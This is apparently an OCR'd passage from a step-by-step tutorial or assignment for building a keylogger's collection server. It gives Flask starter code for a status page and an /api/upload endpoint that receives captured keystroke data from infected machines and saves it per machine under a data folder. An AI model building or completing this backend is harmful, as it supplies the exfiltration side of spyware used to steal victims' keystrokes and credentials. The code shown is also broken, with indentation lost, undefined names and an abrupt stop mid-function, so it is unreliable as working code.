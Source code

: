     ### Required Result:
    Project structure that includes data folder and an empty app.py file

    ## Step 2: Creating basic Flask server
        Task:
        1. Open app.py and insert the following code:

        from flask import Flask, jsonify
        app = Flask(__name__)
        @app.route('/')
        def home():
        return "KeyLogger Server is Running"
        if __name__ == '__main__':
        app.run(debug=True) 

        2. Run the server (python app.py) and make sure it works.
        3. Go to address http://127.0.0.1:5000 and check if page loads successfully.

        ### Required Result:
        An active Flask server that shows a message in the browser.

    ## Step 3: Creating API to get KeyLogger data
        Task:
        Create a listener via Flask that will listen to data from the tool.

        ### Required Result:
        Data from the tool will be recieved by the server, will be decrypted and saved to the disk under data/ folder.

        - POST to api/upload/ that gets data and save it in structure:
        - data/<machine>/log_<timestamp>.txt

        Here is a starter code (rest of app.py):

        from flask import request
        import time

        def generate_log_filename():
        return "log_" + time.strftime("%Y-%m-%d_%H-%M-%S") + ".txt"
        @app.route('/api/upload', methods=['POST'])
        def upload():
        data = request.get_json()
        if not data or "machine" not in data or "data" not in data:
            return jsonify({"error": "Invalid payload"}), 400
        machine = data["machine"]
        log_data = data["data"]

        machine_folder = os.path.join(DATA_FOLDER, machine)
        if not os.path.exists(machine_folder):
            os.makedirs(machine_folder)

        filename = generate_log_filename()
        file_path = os.path.join(machine_folder, filename)
